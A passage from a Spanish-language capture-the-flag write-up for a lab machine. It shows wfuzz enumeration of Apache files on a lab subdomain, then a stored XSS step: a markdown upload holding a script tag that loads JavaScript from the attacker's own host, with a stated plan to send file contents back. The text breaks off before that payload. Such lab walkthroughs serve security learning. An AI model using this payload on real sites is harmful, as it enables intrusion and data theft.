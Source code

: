 
## Fuzzing - Apache Files

Buscaremos archivos existentes en este subdominio a los cuales en primera instancia no podremos acceder, por defecto nos retornarán un código de estado `403`, lo que significa que no estamos autorizados para acceder a esos recursos. Sin embargo, el objetivo de lo que estamos haciendo es verificar la existencia de archivos comunes en `apache`

~~~ bash
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt --hc 401 http://statistics.alert.htb/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://statistics.alert.htb/FUZZ
Total requests: 8531

=====================================================================
ID           Response   Lines    Word       Chars       Payload       
=====================================================================

000000001:   403        9 L      28 W       285 Ch      ".htaccess"
000000003:   403        9 L      28 W       285 Ch      ".htpasswd"
000000002:   403        9 L      28 W       285 Ch      ".htaccess.bak"    
000000036:   403        9 L      28 W       285 Ch      "server-status"
~~~



# Explotación / Intrusión
---
## Stored Cross-Site Scripting

Recordemos la sección de `Contact Us`, intentaremos ejecutar código `javascrpt` desde un archivo `Markdown`. Crearemos un archivo malicioso que subiremos al servidor con algún nombre, por ejemplo `test.md`

- Agregaremos la etiqueta `<script>` que solicite un recurso `js` de un servidor HTTP que nosotros montaremos

> `test.md`

~~~ bash
# Test XSS
<script src=http://10.10.14.254/test.js></script>
~~~

En teoría, al visualizarse este archivo, se realizará una solicitud HTTP a nuestro servidor que tendremos iniciado con `python`, y se solicitará el recurso `test.js`. Crearemos nuestro payload que se encargue de enviarnos el contenido de un archivo que queramos visualizar, como queremos 
